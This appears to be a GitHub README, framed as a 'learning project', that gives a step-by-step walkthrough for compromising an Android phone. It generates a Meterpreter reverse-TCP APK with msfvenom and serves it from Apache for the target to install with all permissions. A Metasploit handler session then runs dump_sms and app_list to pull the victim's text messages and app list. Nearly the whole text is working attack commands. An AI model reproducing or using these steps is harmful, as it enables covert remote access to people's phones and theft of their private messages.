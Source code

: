 # Access-Phone's-SMS-Remotely
Remote SMS Learning Project  Learn SMS management via Android APK payloads.  Features: Education, Payloads, Security, User-friendly, Customization, Device Compatibility.
## Table of Content
1. [Generate APK File](#generate-apk-file)
2. [Accessibility](#accessibility)
3. [Check Server](#check-server)
4. [Installation](#installation)
5. [Permissions](#permissions)
6. [Accessing Device](#accessing-device)




## Generate APK File
`sudo msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.0.0 lport=4444 R > ./hacker.apk`
`sudo`: This is a command used in Unix-like operating systems to execute commands with superuser privileges. It allows the user to perform administrative tasks.
`msfvenom`: This is a Metasploit Framework payload generator. It's used to create payloads for exploiting vulnerabilities in systems.
`-p android/meterpreter/reverse_tcp`: This part specifies the payload to generate. In this case, it's creating a payload for Android devices that will connect back to the attacker's machine using the Meterpreter payload over a reverse TCP connection.
`lhost=192.168.0.0`: This option specifies the IP address of the attacker's machine (the listening host) to which the payload will connect back.
`lport=4444`: This option specifies the port on the attacker's machine where the payload will connect back.
`R > ./hacker.apk`: This part redirects the output of msfvenom to a file named hacker.apk. The -R flag is used to specify the output format, which in this case is an APK file for Android.

## Accessibility

Making the file to be easily accessible by other machine/system/device.
`sudo mv ./hacker.apk /var/www/html/`

## Check Server

Check whether your apache server is running or not.
`systemctl status apache2`
If the status is active (running), then okay. If not, use this command below to activate your apache2 server.
`sudo systemctl start apache2`
Optionally, you can also enable Apache2 to start automatically on boot by running:
`sudo systemctl enable apache2`
To verify that Apache2 is running, you can use:
`sudo systemctl status apache2`
So, we have our web application server running.

## Installation

Open your favourate browser on the targeted device and type the ip address followed by forward slash hacker.apk. For example if the ip addr is 192.168.0.0:
➡ 192.168.0.0/hacker.apk

## Permissions

After this, allow the permission to install the apk in the device. Enable all the permissions if needed from the settings>apps>app_name

## Accessing Device

Open Metasploit Framework in your Linux terminal. Type the command in your linux terminal to start Metasploit Framework.
`msfconsole`
Type this command to use the specific exploit:
`use exploit/multi/handler`
Set payload using this command:
`set payload android/meterpreter/reverse_tcp`
See Options:
`show options`
Set LHOST by the ip addr of the listener machine i.e. in our case, Kali Linux:
`set LHOST 192.168.0.0` ➡ Replace 192.168.0.0 with your machine ip addr.
After this, run it by using one of these commands:
`exploit` or `run`
As soon as yopu open the installed apk in the targeted device, it will create a meterpreter session in your terminal.
Type `help` to see all the available options and commands that you can pass.
`app_list` This will show us all the applications data already installed inside the device.
Type command: `dump_sms` and hit enter.
Then immediately you will see we have a file created on our desktop. Open it and ypu can see all of the text messages.


There's a lot more commands that we can do as part of this android hacking. Stay tuned for more valueable information to be shared with you :)
